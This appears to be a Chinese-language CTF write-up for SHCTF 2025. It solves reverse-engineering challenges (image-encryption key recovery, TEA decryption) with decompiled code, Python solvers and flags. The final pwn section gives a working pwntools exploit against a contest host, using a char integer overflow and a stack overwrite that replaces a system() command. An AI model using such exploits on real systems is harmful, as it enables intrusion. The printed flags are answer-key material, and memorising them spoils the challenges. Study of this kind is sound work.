`SHCTF{all_you_need_is_deobfuscation}`


### Safe Image Encryption

> 不知道密钥的话，这个图片加密一定很安全...吧？

感觉这题有点无聊...

1) 从 strings 里先摸清入口参数

strings encrypt 能直接看到：

Usage: %s <original.png> <key_file> <encrypted.png>

Hint: key length is 1003 characters.

说明：它把原图 original.png 用一个1003 字符的 key 文件加密成 encrypt.png。

2) 关键突破：PNG 的 Alpha 通道可反推 key

反汇编（objdump）能看到主循环逻辑（按像素遍历）：

每个像素位置 idx=(y*w+x)*4

b = idx % keylen

取 key 的 4 个字节 k0,k1,k2,k3 = key[b..b+3]

生成 4 个 mask，分别异或到 RGBA 上

其中 A 通道的 mask 与坐标无关（只跟 k3 有关）：

```ini
mA = ((k3 ^ 0x55) - 0x10) & 0xFF
encA = origA ^ mA
```


而原图一般是正常 PNG，**Alpha 大概率全 255（不透明）**。于是：

```ruby
mA = encA ^ 0xFF
=> k3 = ((mA + 0x10) & 0xFF) ^ 0x55
```


因为 idx 每次 +4，且 gcd(4,1003)=1，所以光靠 alpha 能把 1003 个 key 字节全部覆盖并还原出来（并且你会发现 key 还是可读 ASCII 文本）。

3) 用还原的 key 按算法解密整张图

根据反汇编还原出的 4 个 mask：

```ini
mR = ((k0 ^ 0xAA) + (x*x + k0)) & 0xFF
mG = ((3*k1) ^ ((x*y) ^ k2)) & 0xFF
mB = (((2*k2) ^ 0x66) + (y*y + k1)) & 0xFF
mA = (((k3 ^ 0x55) - 0x10)) & 0xFF
orig = enc ^ mask
```

```python
import sys
from pathlib import Path
from PIL import Image

KEYLEN = 1003

def u8(x: int) -> int:
    return x & 0xFF

def recover_key_bytes_from_alpha(enc_rgba, w: int, h: int) -> bytearray:

    key = bytearray([0] * KEYLEN)
    seen = [False] * KEYLEN

    # iterate pixels in the same order as encryption: y major, then x
    for y in range(h):
        for x in range(w):
            idx = (y * w + x) * 4
            encA = enc_rgba[idx + 3]

            # derive mA assuming origA==0xFF
            mA = encA ^ 0xFF
            k3 = u8(mA + 0x10) ^ 0x55

            b = idx % KEYLEN
            pos = (b + 3) % KEYLEN  # key byte used for alpha
            if not seen[pos]:
                key[pos] = k3
                seen[pos] = True

    missing = [i for i, s in enumerate(seen) if not s]
    if missing:
        raise RuntimeError(f"Key recovery incomplete, missing {len(missing)} bytes, e.g. {missing[:16]}")
    return key

def decrypt(enc_rgba: bytes, w: int, h: int, key: bytes) -> bytes:
    out = bytearray(len(enc_rgba))

    for y in range(h):
        for x in range(w):
            idx = (y * w + x) * 4
            b = idx % KEYLEN

            k0 = key[b]
            k1 = key[(b + 1) % KEYLEN]
            k2 = key[(b + 2) % KEYLEN]
            k3 = key[(b + 3) % KEYLEN]

            mR = u8((k0 ^ 0xAA) + (x * x + k0))
            mG = u8((3 * k1) ^ ((x * y) ^ k2))
            mB = u8(((2 * k2) ^ 0x66) + (y * y + k1))
            mA = u8((k3 ^ 0x55) - 0x10)

            out[idx + 0] = enc_rgba[idx + 0] ^ mR
            out[idx + 1] = enc_rgba[idx + 1] ^ mG
            out[idx + 2] = enc_rgba[idx + 2] ^ mB
            out[idx + 3] = enc_rgba[idx + 3] ^ mA

    return bytes(out)

def main():
    if len(sys.argv) < 2:
        print(f"Usage: {sys.argv[0]} encrypt.png")
        sys.exit(1)

    in_path = Path(sys.argv[1])
    im = Image.open(in_path).convert("RGBA")
    w, h = im.size
    enc_rgba = im.tobytes()

    key = recover_key_bytes_from_alpha(enc_rgba, w, h)
    Path("recovered_key.bin").write_bytes(key)

    dec_rgba = decrypt(enc_rgba, w, h, key)
    out_im = Image.frombytes("RGBA", (w, h), dec_rgba)
    out_im.save("decrypted.png")

    print("decryption finished.")

if __name__ == "__main__":
    main()
```

`SHCTF{@lPh4_b1T_L3Ak_th3_kEy_bUt_Ci4ll0!!}`


### a_cup_of_tea

> 一个人，一杯茶，一道逆向做一天

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  _DWORD v4[4]; // [rsp+0h] [rbp-30h] BYREF
  char dest[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  sub_1209(a1, a2, a3);
  v4[0] = 0;
  v4[1] = 0;
  v4[2] = 0;
  v4[3] = 0;
  sub_12D3(v4);
  strcpy(dest, src);
  if ( !(unsigned int)sub_1439(v4) )
  {
    puts("password error");
    exit(1);
  }
  puts("password correct");
  printf("here is your flag: SHCTF{%s}\n", dest);
  return 0;
}
```

1209是打印函数

```c
int sub_1209()
{
  puts("Welcome to SHCTF 2025!");
  puts("this is a signin challenge");
  return puts("plz input the correct password");
}
```

12D3看起来在初始化

```c
char *__fastcall sub_12D3(__int64 a1)
{
  __isoc99_scanf("%16s", src);
  if ( strlen(src) != 16 )
  {
    puts("password length error");
    exit(1);
  }
  sub_1241(a1, src);
  return src;
}
```

1241

```c
void __fastcall sub_1241(__int64 a1, char *src)
{
  int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; i <= 15; ++i )
    *(_DWORD *)(4LL * (i / 4) + a1) += src[i] << (8 * (i % 4));
}
```

把输入的 16 个字节打包成4个32-bit 整数，而且是小端序.

1439则是核心加密函数

```c
_BOOL8 __fastcall sub_1439(_DWORD *a1)
{
  sub_134E(a1, aWelcomeToShctf_0);              // "welcome_to_SHCTF"
  if ( *a1 != -1699360031 || a1[1] != -1120419751 )
    return 0;
  sub_134E(a1 + 2, aWelcomeToShctf_0);          // "welcome_to_SHCTF"
  return a1[2] == -1515845715 && a1[3] == -1804683212;
}
```

多好，密文都给出了

```c
__int64 __fastcall sub_134E(unsigned int *a1, char *welcome_to_SHCTF)
{
  unsigned int v3; // [rsp+1Ch] [rbp-24h]
  unsigned int v4; // [rsp+20h] [rbp-20h]
  int v5; // [rsp+24h] [rbp-1Ch]
  unsigned int i; // [rsp+28h] [rbp-18h]

  v3 = *a1;
  v4 = a1[1];
  v5 = 0;
  for ( i = 0; i <= 0x1F; ++i )
  {
    v5 -= 1640531527;
    v3 += (v4 + v5) ^ (16 * v4 + *(_DWORD *)welcome_to_SHCTF) ^ ((v4 >> 5) + *((_DWORD *)welcome_to_SHCTF + 1));
    v4 += (v3 + v5) ^ (16 * v3 + *((_DWORD *)welcome_to_SHCTF + 2)) ^ ((v3 >> 5) + *((_DWORD *)welcome_to_SHCTF + 3));
  }
  *a1 = v3;
  a1[1] = v4;
  return v4;
}
```

134E是标准tea，没毛病。

```python
import struct

delta = 0x9E3779B9
r = 32
mask = 0xFFFFFFFF

def tea(v0: int, v1: int, k0: int, k1: int, k2: int, k3: int):
    s = (delta * r) & mask
    for _ in range(r):
        v1 = (v1 - (((v0 << 4) + k2) ^ (v0 + s) ^ ((v0 >> 5) + k3))) & mask
        v0 = (v0 - (((v1 << 4) + k0) ^ (v1 + s) ^ ((v1 >> 5) + k1))) & mask
        s = (s - delta) & mask
    return v0, v1

def main():
    key = b"welcome_to_SHCTF"
    assert len(key) == 16
    k0, k1, k2, k3 = struct.unpack("<4I", key)

    c = [0x9ab5d2e1, 0xbd37c059, 0xa5a607ad, 0x946eb834]

    p0, p1 = tea(c[0], c[1], k0, k1, k2, k3)
    p2, p3 = tea(c[2], c[3], k0, k1, k2, k3)

    plain = struct.pack("<4I", p0, p1, p2, p3)

    try:
        passwd = plain.decode("ascii")
    except UnicodeDecodeError:
        passwd = plain.decode("latin-1")

    print(f"SHCTF{{{passwd}}}")

if __name__ == "__main__":
    main()
```

`SHCTF{W0w_u_kN0w_t3A!!}`


### License_verifier

诶忘记怎么复现了...放个flag在这里吧

`SHCTF{Vm_1s_FuN_&_PyTh0n_1s_PoW3rFuL_But_R3aL_W0r1d_1s_M0r3_C0mp1ic4t3d}`


## Pwn

纯菜啊zwz，打个整数溢出勉强会...

### int_overflow

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char n100; // [rsp+Fh] [rbp-11h]
  int n9; // [rsp+10h] [rbp-10h] BYREF
  int i; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v7; // [rsp+18h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  init(argc, argv, envp);
  banner();
  n100 = 0;
  for ( i = 0; i <= 1; ++i )
  {
    printf("plz input number%d\n", i + 1);
    __isoc99_scanf("%d", &n9);
    if ( n9 > 9 )
      return 0;
    n100 += n9;
  }
  if ( n100 == 100 )
    backdoor(100);
  else
    puts("hahaha, I know it is safe");
  return 0;
}
```

主函数，输入两个整数，如果大于9直接退出，但是当且仅当n100==100的时候才能跳转到backdoor，但是没有限制负数输入。

注意n100是个char，即-127~128，

```text
156 的二进制: 10011100
取反加一得到补码: 01100011 + 1 = 01100100 (100)
```

backdoor

```c
unsigned __int64 __fastcall backdoor(char n100)
{
  char buf[10]; // [rsp+13h] [rbp-1Dh] BYREF
  char command[11]; // [rsp+1Dh] [rbp-13h] BYREF
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  strcpy(command, "echo hello");
  puts("oops, you can do it, what is your name");
  read(0, buf, (unsigned int)(n100 - 80));
  system(command);
  puts(buf);
  return v4 - __readfsqword(0x28u);
}
```

栈溢出覆盖command，10字节，随便发挥了。

```python
from pwn import *

def exp():
    io = remote('challenge.shc.tf', 32695)
    
    io.sendlineafter(b'plz input number1\n', b'-156')
    io.sendlineafter(b'plz input number2\n', b'0')
    
    payload = b'A'*10 + b'cat flag\x00'
    io.sendlineafter(b'oops, you can do it, what is your name\n', payload)

    flag = io.recvline()
    print(f"{flag.decode().strip()}")

    io.interactive()

if __name__ == '__main__':
    exp()
```

`SHCTF{16a75385-dbac-4107-9288-4d74ee56802c}`

